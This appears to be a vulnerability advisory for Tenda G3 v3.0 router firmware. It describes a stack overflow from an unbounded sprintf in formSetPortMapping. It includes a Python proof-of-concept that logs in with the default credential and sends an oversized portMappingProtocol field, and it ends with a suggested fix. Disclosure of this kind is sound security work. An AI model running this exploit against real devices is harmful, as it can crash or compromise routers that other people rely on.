


**First of all, you can see more detailed demonstration effects in exp.mkv**

## Affected Version
* <=Tenda-G3v3.0 V15.11.0.22

## Vulnerability Description
Tenda-G3v3.0 V15.11.0.20  and Tenda-G3v3.0 V15.11.0.22 was discovered to contain stack overflow  at url **/goform/setPortMapping**

## Vulnerability Details
In the function **formSetPortMapping**, there is the following code, the value of **pPortMapIndex,pLanIP，pProtocl，pWanid** comes from the user's post request.

So we control the **portMappingIndex** variable to let the program **enter this if statement**, and then control the values ​​of **pLanIP, pProtocl, and pWanid** respectively through **portMappingServer, portMappingProtocol, and portMappingWan**

Because **the following sprintf has no length limit**, and **the three variables pLanIP, pProtocl, and pWanid all correspond to %s**, we can achieve **stack overflow** through one of these three variables.

 


## exp
It should be noted that you need to login before accessing /goform/setPortMapping, so you need to login before posting the request.

```python
import requests

session = requests.Session()

login_url = "http://192.168.0.252/login/Auth"
headers = {
    "Host": "192.168.0.252",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://192.168.0.252",
    "Connection": "close",
    "Referer": "http://192.168.0.252/login.asp",
    "Cookie": "G3v3_user=",
    "Upgrade-Insecure-Requests": "1",
    "Priority": "u=0, i"
}

login_data = {
    "password": "YWRtaW4="  # base64 encoded 'admin'
}

response = session.post(login_url, headers=headers, data=login_data)
# formSetPortMapping
url = f"http://192.168.0.252/goform/setPortMapping"
data = {
    "portMappingIndex":b'1',
    "portMappingServer":b'a',
    "portMappingProtocol":b'a'*0x500,
    "portMappingWan":b'a'

}

response=session.post(url=url, data=data)

print(response.text)

```

## Any suggested solutions to fix
**The length limit should be added when calling the sprintf function**
